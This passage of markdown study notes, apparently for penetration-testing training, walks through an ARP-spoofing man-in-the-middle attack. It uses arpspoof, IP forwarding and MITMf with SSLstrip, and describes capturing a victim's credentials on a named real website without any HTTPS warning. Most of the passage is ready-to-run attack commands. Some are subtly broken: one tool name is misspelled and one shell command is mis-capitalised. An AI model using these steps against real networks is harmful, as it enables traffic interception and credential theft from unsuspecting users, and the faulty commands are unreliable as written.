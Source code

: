     # example
    arpsppof -i wlan0 -t 192.168.1.69 192.168.1.1
    ```

   

3. Enable IP forward to allow packets to flow through our devices without being dropped

    ```bash
    Echo 1 > /proc/sys/net/ipv4/ip_forward
    ```

   

4. As training check, run `arp -a` command table in order to display the arp table and see that the router MAC is changed (the new one is the spoofing machine)



##### MITMf

```bash
# Install it (not shipped with Kali)
apt-get update
apt-get install mitmf

# spoof 
mitmf --arp --spoof --gateway [GATEWAY-IP] --target [TARGET-IP] -i [INTERFACE]

```



* From the client machine login to www.carzone.ie => from the machine where the `mitmf` command has been run login credentials are displayed
* In case of https website, `mitmf` will start `SSLstrip` in order to bypass the https protocol. The user will not notice it, since no warnings are displayed. However in the address bar the https is not shown!


